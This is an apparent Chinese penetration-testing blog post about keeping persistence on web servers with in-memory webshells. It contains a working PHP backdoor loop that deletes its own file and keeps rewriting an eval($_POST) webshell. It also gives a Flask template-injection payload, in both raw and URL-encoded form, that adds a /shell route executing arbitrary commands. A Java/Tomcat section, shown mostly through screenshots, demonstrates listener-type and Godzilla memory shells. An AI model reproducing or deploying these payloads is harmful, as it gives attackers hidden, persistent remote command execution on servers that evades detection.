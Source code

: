 ```yaml
---
title: day17-权限维持篇-web-内存马
date: 2024-03-21 23:13 +0800
categories: [内网,web] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00前言

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。 

内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。==无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。==

再次之后可能会详细的介绍有关于webshell内存马的文章！！！

## 0x01 php内存马

对于php来说，实际上不算是比较存粹的内存马。在php中最主要的是写入一个php文件使其能够达到删除不掉的地步，也就是不断的生成文件，详情参考下面的代码：

```php
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.yuan.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

效果如下：

![截图](0187b66d9b9b1c7e753a423b18b4b7a9.png)

此时，就会发现我们一直无法删除这个文件了！！！ 除非重启。

> php这里是有文件显示的！

## 0x02 python

python这里则是基于`flask`的模板注入;

首先，启动`flask`的模板：

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('param'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run(port=8000)   
```

```cmd
python flaskSstiServer.py
```

此时，注入内存马的参数：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```
>http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}

![截图](b49db16c1ce2bfec32874e1c785a6b83.png)

此时，访问shell地址即可！

![截图](4fef440a66495272472f7d37374cb35e.png)

从这里我们也可以看见，我们当前目录下面是没有任何文件的，但是我们依然可以访问并执行命令！

## 0x03 java

利用文件上传注入内存马。环境是tomact9和jdk11 ！

#### 搭建环境

配置tomcat请参考：https://blog.csdn.net/qq_29493173/article/details/110304388

在IntelliJ IDEA中配置Tomcat：https://blog.csdn.net/Wxy971122/article/details/123508532

> 如果TOMCAT启动提示NB: JAVA_HOME should point to a JDK not a JRE解决
>
> https://blog.csdn.net/caozhongyan/article/details/6602759
>
> 如果ide没有tomcat：
>
> https://blog.csdn.net/u010459738/article/details/109612997

#### 内存马种类介绍

1、按攻击思路，大致分为：

-Java Instrumentation类（Agent型）

-Servlet-api类（Servlet型、Filter型、Listener型）

-Spring类（Controller型、Interceptor型）

2、按注入的对象分为：tomcat、weblogic、shiro等类型。

#### 演示

首先，我们来看看`listener`类型的内存马：

![截图](ca93ec0be4e4eee3b70d54d4c33cbabe.png)

然后我们可以在tomcat的根目录下看到该文件已经被上传成功！！

![截图](f6687749946d3f7e67cbad362c31f524.png)

由于此时，该文件还没被执行，因此还没有注入内存马，此时我们访问一些不存在的页面（带参数）时候是不会成功的！

![截图](47f313dcabce667f57aeb7f1e1e25916.png)

那么接下来，让我们访问一下该内存马：

![截图](9abc2fb97c9f664dee6f6132230f76db.png)

会弹出计算器，然后此时由于已经注入到内存中，只要我们输入的参数包含了`cmd`的话就会被监控到并执行相应的效果：（~~即使该页面不存在）~~

![截图](7820326805dcb4da1edcebc0dcc0f114.png)

#### 哥斯拉注入演示

首先，生成一个木马并上传：

![截图](516a79df551bed204f4912ad0f1da154.png)

然后建立连接并访问：（注意这里的访问路径要写入对应的上传地址）

![截图](f2e0b34128c6196ac13d671a0178fbfb.png)

此时，我们连接`1.jsp`是可以的：

![截图](c44189042cca1e17d70fb68cf76ef335.png)

然后，我们利用此进行注入：

![截图](f563436b255aec034f94aaf3cb49581f.png)

这里，当我们不点击run时候，我们无论如何是也连接不进去的（而且`.ico`也是个图片）

![截图](7be38268e2fb87264718205aea5ec067.png)

然后我们点击run：

![截图](f0ef6883dded01c141c0b1243164d6fa.png)

就发现成功了！！

此时，我们即使把之前的`1.jsp`删了，我们的内存马也可以连接：

![截图](f23d1a178ab84e1fad99381527943ef1.png)

![截图](6f0424bc0911e24d55a0563f5a888717.png)

而且在根目录下面也是没有文件的：

![截图](903ad7079e1fb3d98e27420f4bdc408a.png)
